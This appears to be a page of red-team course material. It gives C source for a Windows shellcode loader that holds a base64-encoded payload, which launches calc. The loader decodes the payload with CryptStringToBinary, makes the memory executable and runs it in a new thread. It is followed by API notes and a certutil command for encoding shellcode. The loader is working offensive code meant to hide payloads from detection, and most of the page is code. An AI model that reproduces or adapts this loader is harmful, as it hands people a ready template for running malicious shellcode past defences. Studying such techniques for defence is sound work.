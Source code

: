 

Code snippet
```c
/*

 Red Team Operator course code template
 payload encoding with base64

 author: reenz0h (twitter: @sektor7net)

*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <Wincrypt.h>
#pragma comment (lib, "Crypt32.lib")

unsigned char calc_payload[] = "/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu/C1olZBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY2FsYy5leGUA";
unsigned int calc_len = sizeof(calc_payload);


int DecodeBase64( const BYTE * src, unsigned int srcLen, char * dst, unsigned int dstLen ) {

	DWORD outLen;
	BOOL fRet;

	outLen = dstLen;
	fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, (BYTE * )dst, &outLen, NULL, NULL);
	
	if (!fRet) outLen = 0;  // failed
	
	return( outLen );
}


int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;
	
	// Allocate new memory buffer for payload
	exec_mem = VirtualAlloc(0, calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "calc_payload addr", (void *)calc_payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	printf("\nHit me 1st!\n");
	getchar();

	// Decode the payload back to binary form
	DecodeBase64((const BYTE *)calc_payload, calc_len, (char *) exec_mem, calc_len);
	
	// Make the buffer executable
	rv = VirtualProtect(exec_mem, calc_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me 2nd!\n");
	getchar();

	// If all good, execute!
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```


---

#### Key Windows API functions

Windows API provides functions to encode and decode Base64 data. Two common functions for this purpose are `CryptBinaryToString()` and `CryptStringToBinary()`, which are part of the Cryptography API.

[**_CryptStringToBinary()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptstringtobinarya) converts a formatted string into an array of bytes. This function can be found in the _crypt32.dll_ library.

`CryptStringToBinary()` function has the following prototype:

```c
BOOL CryptStringToBinary(
  LPCSTR pszString,  // pointer to a string that contains the formatted string to be converted.
  DWORD  cchString,  // number of characters of the formatted string to be converted, not including the terminating NULL
  DWORD  dwFlags,    // indicates the format of the string to be converted, ex. CRYPT_STRING_BASE64, CRYPT_STRING_HEXASCII, CRYPT_STRING_BINARY, etc.
  BYTE   *pbBinary,  // pointer to a buffer that receives the returned sequence of bytes
  DWORD  *pcbBinary, // pointer to a variable which on entry contains the size of the pbBinary (in bytes). After return, it contains the number of bytes copied to the buffer
  DWORD  *pdwSkip,   // pointer to a value that receives the number of characters skipped to reach the beginning of the -----BEGIN ...----- header
  DWORD  *pdwFlags   // pointer to a value that receives the flags actually used in the conversion. Can be NULL (skipped)
);
```

 **Return value**

If the function succeeds, the return value is nonzero (`TRUE`). Otherwise, the return value is zero (`FALSE`).

---

#### Base64 Decoder Function using CryptStringToBinary

```c
int DecodeBase64( const BYTE * src, unsigned int srcLen, char * dst, unsigned int dstLen ) {

	DWORD outLen;
	BOOL fRet;

	outLen = dstLen;
	fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, (BYTE * )dst, &outLen, NULL, NULL);
	
	if (!fRet) outLen = 0;  // failed
	
	return( outLen );
}
```
#### External Resources

[Base64 Encode and Decode in C](https://nachtimwald.com/2017/11/18/base64-encode-and-decode-in-c/)

---

#### B64 conversion

Base64 encode bin shellcode
```powershell
certutil -encode calc.bin calc.b64
```

